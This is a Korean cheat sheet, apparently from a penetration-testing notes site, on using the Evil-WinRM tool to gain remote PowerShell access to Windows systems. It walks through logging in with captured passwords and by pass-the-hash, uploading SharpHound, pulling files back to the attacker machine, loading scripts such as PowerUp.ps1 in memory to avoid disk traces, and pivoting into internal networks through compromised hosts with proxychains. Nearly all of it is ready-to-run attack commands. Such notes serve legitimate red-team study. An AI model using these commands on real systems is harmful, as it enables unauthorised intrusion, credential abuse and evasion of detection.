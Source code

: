 

# Evil-WinRM 원격 접속 가이드

WinRM(Windows Remote Management)은 5985(HTTP) 및 5986(HTTPS) 포트를 통해 Windows 시스템을 원격으로 관리하기 위한 표준 프로토콜입니다. `Evil-WinRM`은 이 WinRM을 위한 강력하고 편리한 클라이언트로, PowerShell 기반의 완전한 기능의 셸을 제공합니다.

---

### **1. 기본 접속 방법**

- **목표:** 획득한 자격증명을 사용하여 대상 시스템에 원격 PowerShell 세션을 설정합니다.

```bash title="비밀번호를 이용한 접속"
# -i: 타겟 IP 주소
# -u: 사용자 이름
# -p: 비밀번호
evil-winrm -i $target -u 'Administrator' -p 'Password123!'
```

```bash title="Pass-the-Hash (PTH) 접속"
# -H: NTLM 해시
evil-winrm -i $target -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

---

### **2. 핵심 기능: 파일 전송 및 스크립트 로딩**

`Evil-WinRM`의 가장 큰 장점 중 하나는 파일 전송과 스크립트 실행이 매우 간편하다는 것입니다.

#### **파일 업로드/다운로드**

세션이 연결된 상태에서 다음 명령어를 사용할 수 있습니다.

```powershell(title="Evil-WinRM 세션 내부")
# 공격자 머신의 파일을 타겟으로 업로드
# 형식: upload <local_path> <remote_path>
upload /root/SharpHound.ps1 C:\Users\Public\SharpHound.ps1

# 타겟의 파일을 공격자 머신으로 다운로드
# 형식: download <remote_path> <local_path>
download C:\Windows\System32\drivers\etc\hosts .
```

#### **로컬 스크립트 디렉터리 공유**

`-s` 옵션을 사용하면 공격자 머신의 특정 디렉터리를 타겟 시스템에 웹 서버 형태로 공유할 수 있어, 파일을 디스크에 직접 쓰지 않고도 스크립트를 실행할 수 있습니다.

```bash(title="-s 옵션으로 로컬 디렉터리 공유")
# 공격자의 /root/scripts 폴더를 공유하며 접속
evil-winrm -i $target -u <user> -p <pass> -s /root/scripts
```

- 접속 후, `Evil-WinRM`은 자동으로 공유된 디렉터리에 접근할 수 있는 PowerShell 다운로드 명령어를 화면에 보여줍니다. 이를 복사하여 세션에 붙여넣으면, 디스크 흔적 없이 `PowerUp.ps1` 같은 스크립트를 메모리에서 바로 실행할 수 있습니다.

---

### **3. Proxychains 연동 (피버팅)**

`Evil-WinRM`은 `proxychains`와 완벽하게 호환되어, 이미 침투한 다른 시스템을 경유하여 내부망의 다른 시스템에 접속(피버팅)할 때 매우 유용합니다.

```bash(title="Proxychains를 통한 내부망 접속")
proxychains evil-winrm -i $internal_target_ip -u <user> -p <pass>
```



